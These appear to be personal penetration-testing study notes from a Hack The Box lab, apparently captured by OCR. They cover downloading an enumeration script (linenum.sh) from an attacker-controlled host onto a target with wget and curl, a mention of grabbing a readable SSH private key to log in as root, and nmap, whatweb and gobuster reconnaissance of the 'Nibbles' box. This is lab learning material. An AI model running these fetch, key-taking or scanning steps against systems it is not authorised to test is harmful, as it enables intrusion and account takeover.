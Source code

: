 on the machine that we want to download the file
```bash
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh


user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
#the -o linenum.sh renames the file after downloading
```

in the last challenge, when i found out that the ip_rsa file on the target machine is readable, i could transfer the ip_rsa file back to my local machine so that i can ssh as root
```bash
scp linenum.sh user@remotehost:/tmp/lineum.sh
```

### Nibbles
common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges

IP  10.10.10.75
OS  Linux
AV  web app

1. bashic enum
look for open ports:  
`nmap -sV --open -oA nibbles_initial_scan 10.129.42.190`  
this will also save the scan results in 3 formats.  
Banner grabbing, double check
  `nc -nv 10.129.42.190 22`  

#### web footprinting
identify the web app
```bash
whatweb 10.129.42.190

┌─[us-academy-2]─[10.10.14.36]─[htb-ac-1136328@htb-yuecbl5gje]─[~]
└──╼ [★]$ whatweb 10.129.141.152
http://10.129.141.152 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.141.152]

```
Next, check the page's source code.  
```bash
curl http://10.129.42.190
```
Try to find hidden directories, for example
```bash
whatweb http://10.129.42.190/nibbleblog

FallenOverlord@htb[/htb]$ whatweb http://10.129.42.190/nibbleblog

http://10.129.42.190/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], RedirectLocation[http://10.129.42.190/nibbleblog/], Title[301 Moved Permanently]
http://10.129.42.190/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```
##### Dir Enum
check for accessable pages and hidden dir, use gobuster
```bash
FallenOverlord@htb[/htb]$ gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

===============================================================

Gobuster v3.0.1
```